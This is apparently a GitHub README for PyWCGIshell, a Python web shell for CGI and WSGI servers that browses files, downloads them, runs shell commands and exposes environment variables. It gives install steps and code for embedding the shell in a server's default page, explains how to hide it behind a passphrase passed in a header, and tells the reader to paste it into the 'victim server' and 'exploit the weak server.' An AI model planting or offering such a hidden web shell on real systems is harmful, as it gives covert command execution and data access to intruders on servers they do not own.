 ![PyWCGIshell logo](https://mauricelambert.github.io/info/python/security/PyWCGIshell.png "PyWCGIshell logo")

# PyWCGIshell

## Description

This package implement a WebShell for CGI and WSGI server.

With this WebShell you can:
 - explore directories and download files
 - execute command lines (with command history)
 - show basic informations about environment server
 - show environments variables

## Requirements

This package require :
 - python3
 - python3 Standard Library

## Installation
```bash
pip install PyWCGIshell
```

## Usages

### Command line

(Command line is useful to try the webshell)

```bash
python3 -m PyWCGIshell wsgi # Try it in wsgi mode
```

### Python script

#### CGI page

```python
from PyWCGIshell import WebShell

def my_default_cgi_page():
	print("Content-type:text/plain; charset=utf-8")
	print("")
	print("Hello World !")

webshell = WebShell()
webshell.standard_page = my_default_cgi_page
webshell.run()
```

#### WSGI page

```python
from PyWCGIshell import WebShell

def my_default_wsgi_page(environ, start_response):
    status = '200 OK'
    headers = [('Content-type', 'text/plain; charset=utf-8')]
    start_response(status, headers)
    return [b"Hello World !"]

webshell = WebShell(type_="wsgi")
webshell.standard_page = my_default_wsgi_page
application = webshell.run
# Apache with mod_wsgi use the "application" as default function
```

#### WebShell options

```python
from PyWCGIshell import WebShell

webshell = WebShell(type_="cgi", passphrase="SHELL", pass_type="method")
webshell.run()
```
I don't recommend using `method` like `pass_type` to hide your WebShell.

You can use similar configuration to hide your WebShell.
```python
from PyWCGIshell import WebShell

webshell = WebShell(type_="wsgi", passphrase="<inexistant api key>", pass_type="header_value")
application = webshell.run
```

To use this WebShell:
 - Configure (server type, passphrase and passphrase location) and copy the WebShell code or install it
 - Paste it in the default page of the victim server or import it
 - Send a request with the passphrase and exploit the weak server

## Links

 - [Github Page](https://github.com/mauricelambert/PyWCGIshell/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/PyWCGIshell.html)
 - [Pypi package](https://pypi.org/project/PyWCGIshell/)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
